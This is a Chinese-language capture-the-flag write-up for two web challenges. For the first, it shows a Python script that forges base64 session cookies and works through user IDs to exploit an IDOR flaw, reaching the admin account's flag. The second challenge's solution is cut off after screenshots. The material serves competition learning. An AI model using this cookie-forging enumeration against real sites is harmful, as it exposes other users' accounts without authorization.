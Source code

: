 ### Baking Store Revenge

> {{< spoiler >}}
> ![Challenge](https://hackmd.io/_uploads/S1Ty4euHC.png "500px")
> {{< /spoiler >}}
> 復仇，復仇，最後的復仇  
> 可以見得，已經出題目出到瘋了...  
> https://baking-revenge.fhh4ck3rs.taipei/
>
> Author: CXPh03n1x

#### 題解

1. 比起上一題多了個登入按鈕，可以使用任意名稱登入
2. 驗證身份的方式有Cookie中的Session與網址後的id，嘗試爆破尋找有烤過東西的帳號
3. 寫腳本，約在20秒後可發現admin帳號與Flag
   ```python
   for i in tqdm.tqdm(range(65577, 0, -1)):
       session = base64.b64encode(f'{{"id": {i}, "baking": []}}'.encode()).decode()
   
       req = requests.get(f'https://baking-revenge.fhh4ck3rs.taipei/users/{i}',
                          cookies={'session': session}
                          )
   
       if '還沒有烤過任何東西' not in req.text:
           print(req.text)
           break
   ```

   ![image](https://hackmd.io/_uploads/Bkozrx_rC.png)

> Flag: `FhCTF{IDOR_1s_t3rr4bl3_w1th_n0_l1m173d...}`

---

### A Web

> {{< spoiler >}}
> ![Challenge](https://hackmd.io/_uploads/B1TXqv4BR.png "500px")
> {{< /spoiler >}}
> Just a WEB, nothing else..  
> 我認真的說..就是一個web，沒有其他的了.  
> https://aweb.fhh4ck3rs.taipei/
>
> Author: xiunG

#### 題解

1. Flag 1/3 ![image](https://hackmd.io/_uploads/HJuSqvVH0.png)

2. Flag 2/3
   ![image](https://hackmd.io/_uploads/HJ7N9vErC.png)
   ![image](https://hackmd.io/_uploads/rya95PVBC.png)
